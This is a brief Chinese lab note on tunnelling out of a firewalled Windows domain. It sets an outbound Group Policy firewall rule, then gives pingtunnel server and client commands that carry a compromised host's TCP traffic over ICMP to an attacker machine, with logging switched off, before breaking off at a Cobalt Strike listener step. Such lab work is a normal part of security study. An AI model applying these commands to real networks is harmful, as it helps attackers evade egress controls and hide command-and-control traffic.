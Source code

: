 ```yaml
---
title: 隧道实验
date: 2024-03-13 23:16 +0800
categories: [内网] 
tags: [隧道,通信]
img_path: /img/Intranet/
---
```


# 出站

## 域中防火墙策略更新

**域控制器：**

- 开始 --> 管理工具 --> 组策略管理 --> 林 --> 域 --> 右击选中的域（如god.org） -->  选中创建gpo
- 点击新建的gpo策略 --> 右击编辑 --> 选中计算机配置中的策略 --> 选中Windows设置 --> 选中安全设置 --> 选中高级安全windows防火墙进行设置 
- 右击即可新建防火墙策略 -->  在命令行中输入 gpupdate/force 即可刷新

随后，域中主机只需重启即可完成！！！

*本地搭建的服务器，大概率是可以进行访问的，这是因为本地搭建的服务器tcp在本地流转，未经过防火墙*

## pingtunnel

### 服务器端：

```bash
./pingtunnel -type server
# 或者
sudo ./pingtunnel -type server
```

### 肉鸡（客户端）：

```bash
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.207.128 -t 192.168.207.128:6666 -tcp 1 -noprint 1 -nolog 1
```

--> 意思将本地**(127.0.0.1)的5555号端口**上的流量，利用pingtunnel封**装成icmp协议包**的数据，发送到**192.168.207.128的6666号端口**上。

> 1. wsl与vmware上的流量转发会超级慢！！！ 建议服务器直接使用vmware的。
>
> 2. pingtunnel的客户端需要用管理员权限！！
>{: .prompt-tip}

### CS利用

~~如何开启与设置看cs篇！~~

设置两个监听器
